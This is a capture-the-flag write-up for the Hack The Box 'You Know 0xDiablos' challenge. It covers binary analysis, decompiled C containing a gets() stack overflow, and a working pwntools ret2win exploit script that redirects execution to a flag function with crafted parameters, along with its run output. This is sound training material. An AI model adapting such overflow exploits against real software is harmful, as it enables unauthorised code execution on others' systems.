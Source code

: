 # You Know 0xDiablos

### Initial Analysis

This challenge provides us with a single executable: `vuln`

Upon running the binary, we are greeted with a message, it then prompts us for an input, echos it back and exits:

```bash
└─$ ./vuln
You know who are 0xDiablos: 
no
no
```

Checksec shows us the following:

```scheme
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Hmm, RWX segments, interesting....

### Code analysis

Decompilation for `main`:

```c
undefined4 main(void)
{
  __gid_t __rgid;
  
  setvbuf(stdout,(char *)0x0,2,0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  puts("You know who are 0xDiablos: ");
  vuln();
  return 0;
}
```

An interestingly named function `vuln`:

```c
void vuln(void)
{
  char buffer [180];
  
  gets(buffer);
  puts(buffer);
  return;
}
```

And finally a function called `flag`:

```c
void flag(int param_1,int param_2)
{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

Since we have an unbound buffer overflow in `vuln:5`, and a `flag` function, this looks like a typical ret2win type of challenge, with a little twist. There is a check on `flag:9` for the values of 2 parameters that are passed to the `flag` function. Since this is a 32-bit binary, function parameters are passed onto the stack, so all we will have to do, is include the values on the stack in the correct position, in our overflow.  
  
Those values in unsigned form happen to be: `0xdeadbeef` and `0xc0ded00d`.

After a call to a function, this is what the stack layout looks like in 32-bit:

![](../../../.gitbook/assets/3jl88-1-.png)

So at the time of the `flag` call, we will need to have the parameters starting 4 bytes from `ESP`.

### Exploitation

The following exploit script should do the trick:

{% code title="x.py" %}
```python
from pwn import *

bin = ELF("./vuln")
rop = ROP(bin.path)
gdbs = """
c
"""

def run():
        global libc
        if args.R:
                p = remote()
                libc = ELF("./libc.so.6")
        elif args.D:
                p = gdb.debug(bin.path, gdbs)
                libc = p.libc
        else:
                p = process(bin.path)
                libc = p.libc

        return p

p = run()

payload = b""
payload += (184 - len(payload))*b"A" #overflow
payload += p32(0) #ebp
payload += p32(bin.sym.flag) #eip
payload += p32(0) #esp will pe pointing here after the return to `flag`
payload += p32(0xdeadbeef) #parameter 1
payload += p32(0xc0ded00d) #parameter 2

p.recv()    
p.sendline(payload) #send the payload to the program
p.interactive() #should now print out the flag
```
{% endcode %}

And sure enough it does:

```aspnet
└─$ python3 x.py  
[*] '/home/p00dl3/Documents/HTB/Challanges/Pwn/you-know-0xdiablos/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[*] Loaded 10 cached gadgets for '/home/p00dl3/Documents/HTB/Challanges/Pwn/you-know-0xdiablos/vuln'
[+] Starting local process '/home/p00dl3/Documents/HTB/Challanges/Pwn/you-know-0xdiablos/vuln': pid 10943
[*] '/usr/lib/i386-linux-gnu/libc-2.31.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
HTB{test-flag}
[*] Got EOF while reading in interactive
$
```

